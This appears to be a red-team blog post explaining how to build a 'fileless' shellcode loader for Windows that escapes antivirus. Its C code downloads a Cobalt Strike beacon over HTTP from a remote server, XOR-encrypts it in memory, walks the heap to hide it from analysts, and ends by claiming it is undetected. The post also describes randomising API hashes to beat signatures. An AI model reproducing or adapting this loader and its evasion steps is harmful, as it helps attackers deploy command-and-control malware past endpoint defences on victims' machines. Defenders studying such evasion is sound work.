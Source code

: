 ```yaml
---
title: Shellcodes are dead, long live Fileless Shellcodes
updated: 2023-02-05 22:07
---
```


Recently I was developing a simple Shellcode Loader which uses Callbacks as an alternative of Shellcode execution. While it bypasses every runtime scanning, it failed to bypass the signature detection. So I fired up [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) to identify the bad bytes:

![bad_bytes_threatcheck](https://cdn-images-1.medium.com/max/800/1*KwJR9m_Ua3ujyGbK4GcSTw.png)

At a first glance, it is impossible to understand what exactly is getting detected so I fired up [GHidra](https://ghidra-sre.org/) to manually identify these bad bytes. I simply copied a random pattern from the ThreadCheck (**00 1F CC 07 00 15 CC 07**) and tried searching in the memeory of the compiled EXE of the malware.

![ghidra_in_action](https://cdn-images-1.medium.com/max/800/1*UroW7mIted_uXKaqoQ20og.png)

This is clearly the XORed Shellcode I implemented to my Shellcode Loader and it's getting detected as a Cobalt Strike agent by Defender. Seems like the XOR encryption routine is not strong enough againts static detection and that got me thinking: are stored shellcodes really dead (especially the ones generated from Cobalt Strike)?
I wouldn't be suprised, as currently Cobalt Strike is [the most popular C2 framework](https://twitter.com/teamcymru_S2/status/1604091964386705409?s=20) among threat actors, but something must be done to make the Shellcode great and undetectable again.

## RAW Shellcodes: What's wrong with them?

Cobalt Strike’s payloads are based on Meterpreter shellcodes and include many similarities (sometimes identical) API hashing ([x86](https://github.com/rapid7/metasploit-framework/blob/04e8752b9b74cbaad7cb0ea6129c90e3172580a2/external/source/shellcode/windows/x86/src/block/block_api.asm) and [x64](https://github.com/rapid7/metasploit-framework/blob/04e8752b9b74cbaad7cb0ea6129c90e3172580a2/external/source/shellcode/windows/x64/src/block/block_api.asm) versions).

The [default Hashes]() that Cobalt Strike uses are highly signatured; we can get a workaround to such hashes by performing a [dynamic Hash encoding](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection). If you look at the image below, the hash value `0xa779563a` is the default hash of **InternetOpenA**. If you simply google the hash, everything related to Metaploit will show up, so this hash is known to be mostly used by Cobalt Strike beacons and Meterpreter agents. Applying ror13 hashing to such hashes will drastically reduce the detection by AV vendors (to almost 0). As this is already nicely explain on [this article](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection), I'm not going to explain it much further, but the photo below gives the idea of the final result after encoding the hashes. 

![cs_hashes](https://cdn-images-1.medium.com/max/800/1*B6Q4LXM_BP9fMW4ceu_3Lg.png)

## Fileless Shellcode to the rescue

Although it is not a new thing, fileless shellcodes are a good way of avoiding signature detection is by retrieving a shellcode from the internet. This way you will solve the problem of large entropy and any possible signature detection.
On the photo below, there is a comparison between a traditional XORed encrypted shellcode and our fileless shellcode loader. Since the shellcode doesn't have to be stored on .text section, the entropy will descrease drastically (remember that ):

![entropy_comparison](https://cdn-images-1.medium.com/max/800/1*5KjsCjd7bwYLlqjf-CGB2A.png)

The full source code can be found [here](https://github.com/kleiton0x00/RemoteShellcodeExec/), but on this article I will try to break down the code for the sake of understanding.

In order to request the shellcode from the HTTP Server, I will be using  `winhttp` library. Alternatively you can use sockets, based on some researches it might be a better solution which might results on lower runtime detection (as probably the Winsocket's API will get hooked). The code below is responsible for sending an HTTP request to the remote server and waiting for the response:

```c
    // Initialize WinHTTP 
    hInternet = WinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);

    // Connect to the HTTP server 
    hHttpSession = WinHttpConnect(hInternet, L"192.168.0.60", 80, 0); //192.168.0.60:8081

    // Open an HTTP request 
    hHttpRequest = WinHttpOpenRequest(hHttpSession, L"GET", L"/beacon.bin", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);

    // Send a request 
    bResults = WinHttpSendRequest(hHttpRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);

    // Wait for the response 
    bResults = WinHttpReceiveResponse(hHttpRequest, NULL);
```

WinHTTP receives the response in chunks, so we need to make a loop untill everything is retrieved:

```c
    do
    {
        dwSize = 0;
        if (!WinHttpQueryDataAvailable(hHttpRequest, &dwSize))
        {
            printf("Error %u in WinHttpQueryDataAvailable.\n", GetLastError());
        }

        // Allocate space for the buffer.
        pszOutBuffer = new char[dwSize + 1];

        // No more available data 
        if (!pszOutBuffer) {
            printf("[-] No more available data");
            dwSize = 0;
        }

        // Read the Data.
        ZeroMemory(pszOutBuffer, dwSize + 1);

        if (!WinHttpReadData(hHttpRequest, (LPVOID)pszOutBuffer,
            dwSize, &dwDownloaded))
            printf("Error %u in WinHttpReadData.\n", GetLastError());
        else
            PEbuf.insert(PEbuf.end(), pszOutBuffer, pszOutBuffer + dwDownloaded);

    } while (dwSize > 0);
```

Lastly, make sure to store each chunk in a vectored array:  

```c
    char* PE = (char*)malloc(PEbuf.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuf[i];
    }
```

## There is always place for encryption

Notice the following part:

```c
    char* PE = (char*)malloc(PEbuf.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuf[i];
    }
```

The shellcode retrieve from the teamserver is stored in the heap, making it easy for the blue-team to analyze the heap and discover what's inside (clearly our unencrypted shellcode):

![shellcode_written_in_memory](https://cdn-images-1.medium.com/max/800/1*UVRHyvNkqqNV5H6kdcNSHA.png)

Additionally, encrypting the shellcode in Heap is always a better idea:

```c
    char* PE = (char*)malloc(PEbuffer.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuffer[i] ^ 0x7e; //XOR encrypted
    }

    XOR(PE, PEbuffer.size(), key);
```

Where **XOR** is a basic function which decrypts the array: 
```c
void XOR(char* data, int len, unsigned char key) {
    int i;
    for (i = 0; i < len; i++)
        data[i] ^= key;
}
```

## Protect the heap at all cost

Encrypting the heap is a good idea because it protects sensitive data that could be stored in the heap. This is especially important when a program is running in an untrusted environment, as any data stored in the heap could be analyzed by a malware analyser.

```c
// Encryption Key
const char key[2] = "A";
size_t keySize = sizeof(key);

void xor_bidirectional_encode(const char* key, const size_t keyLength, char* buffer, const size_t length) {
    for (size_t i = 0; i < length; ++i) {
        buffer[i] ^= key[i % keyLength];
    }
}

PROCESS_HEAP_ENTRY entry;
void HeapEncryptDecrypt() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(GetProcessHeap(), &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            xor_bidirectional_encode(key, keySize, (char*)(entry.lpData), entry.cbData);
        }
    }
}
```

The **HeapWalk()** function is used to iterate through each heap entry in the process heap, and it is used to check whether the entry is busy. If it is busy, the xor_bidirectional_encode() function is used to encrypt and decrypt the entry. This is done by using the XOR operation to encrypt and decrypt the data.

## Profit

1. Entropy is drastically reduced.
2. Heap is protected
3. No detection (Profit!)

<video src="https://i.imgur.com/U8LjkcA.mp4" controls="controls"></video>
